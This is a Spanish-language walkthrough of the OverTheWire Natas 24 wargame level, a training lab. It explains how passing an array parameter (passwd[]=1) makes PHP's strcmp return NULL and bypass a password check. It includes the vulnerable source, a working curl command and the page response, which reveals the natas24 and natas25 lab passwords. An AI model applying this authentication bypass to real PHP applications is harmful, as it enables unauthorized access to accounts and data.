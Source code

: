 # Natas 24

#### URL: http://natas24.natas.labs.overthewire.org
#### Credenciales: natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd

``` php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
```

La funcion strcmp compara dos cadenas, devuelve 0 si son iguales, <0 si la cadena 1 es menor que la cadena2, >0 si la cadena 2 es menor que la cadena1.

En php hay algo que se llama "type juggling" por ser un lenguaje debilmente tipado que hace que la variable a la que se le asigna un valor pasa a ser de ese tipo.

Ahora bien php interpreta var[]=1 como un array con un elemento, entonces si pasamos ?passwd[]=1 estamos pasando un array y strcmp intentará comparar un array y un string. Resultado: NULL, lo que retornara 0, tal y como si fuese correcto.

``` bash
curl -u natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd http://natas24.natas.labs.overthewire.org/?passwd[]=1
labs.overthewire.org/?passwd[]=1
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas24", "pass": "MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd" };</script></head>
<body>
<h1>natas24</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br><pre>Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`
